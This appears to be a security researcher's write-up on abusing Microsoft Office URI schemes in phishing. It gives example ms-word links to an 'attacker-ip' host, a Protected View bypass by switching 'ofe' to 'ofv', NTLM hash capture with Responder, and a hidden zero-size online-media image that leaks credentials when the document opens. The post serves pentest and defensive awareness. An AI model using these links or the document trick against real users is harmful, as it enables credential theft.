





# INTRODUCTION

I was recently reading up on [Microsoft GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) as part of some testing I was doing related to Microsoft Teams and stumbled upon some interesting Microsoft documentation:
[Office URI Schemes | Microsoft Learn](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes) 

The document outlines how Office URIs can be used to open Office application and files in various ways that only requires a click or two from a user. These methods are valuable for Pentesters and System Administrators to understand as they could be abused to target vulnerable users in phishing scenarios (example below).

Microsoft understands that these URI's could be used in nefarious ways, and they have implemented some protections to prevent documents from being opened from untrusted sources, or warn users that the file they are trying to open is coming from an untrusted source.
# TESTING THE METHODS

## PROTECTIONS
Below are two examples of "unsafe" methods that Microsoft Office tries to prevent.

**UNC PATH**
When trying to access an Office URI link containing a UNC path to a file at an untrusted location, Microsoft Word blocks the file from opening and displays this error message:

`ms-word:ofe|u|//attacker-ip/document.docx`

**The file:// URI**
When using the file:// URI, Word *will* open, but the user gets prompted for warnings, and if Responder is running, they will be asked to enter their credentials. For most users, this would be very suspicious behavior:

`ms-word:ofe|u|file://attacker-ip/document.docx`

## THE WORK AROUNDS
When using simple http (no certificate required!) Microsoft will open the document with just a banner telling the user that the file is in "PROTECTED VIEW" and that to enable editing, the user just has to click a single button!

`ms-word:ofe|u|http://attacker-ip/job_description.docx`

When using this method, the payload word document does not send NTLM hashes to the attacker server, until the user clicks the Enable Editing button. Additionally, the banner might make some users wary if the file they just opened was from an untrusted source.

However, this "PROTECTED VIEW" will only be applied under certain conditions, such as files with a MOTW, and specifically when the file is opened for the purposes of editing.
## BYPASSING PROTECTED VIEW

Until now, all of the links we have used, contain the letters "ofe", this stands for `Open File for Editing`, if we replace this with "ofv" (`Open File for Viewing`) the document is opened in Read Only mode. This bypasses the Protected View in Word and the user hash is sent to the attacker server:

`ms-word:ofv|u|http://attacker-ip/questions_form.docx`

And in Responder we have captured some hashes:

## ADDITIONAL PROTECTIONS/WARNINGS

Something to consider with these Office URIs is how they are sent to a user. 
A few examples:
 - Microsoft Teams does **not** allow Office URIs as links sent in messages. 
 - Clicking the link in most browsers prompts the user to confirm they want to open Word, Excel, etc.
 - Office products such as Word, Excel, and Outlook do not warn or prompt the user when a link is clicked that opens a document (Thanks Microsoft!).
 - Other products such as PDF viewers vary. Sometimes a warning or prompt is provided, sometimes Office just opens.

# THE PAYLOAD
Okay, you might be wondering "why on earth does opening this document send my NTLM hash to the attacker server?!". This is a valid question, and the answer is that it is due to a "feature" that Microsoft claims they will not fix. *Inserting Online Media.*

This is something I was made aware of when a colleague sent me video of a [talk by Sam Shute](https://www.youtube.com/watch?v=zp5Ds2FYnkU). I highly recommend giving it a watch, in the video he details a method where he inserts media from the web, sets the size to 0x0 pixels and hides it in the footer.
He then saves the document as a .zip file, extracts the contents, and modifies the link to the online image to point to his Responder server with the file:// URI . Save the file, compress the files back into a zip, and rename to .docx.

When the file is opened, MS Word finds the "Online Media" link, and immediately goes out to track down the image using the currently logged in user's account credentials. The user is never told that their credentials were sent out by Word, or that the image failed to load.
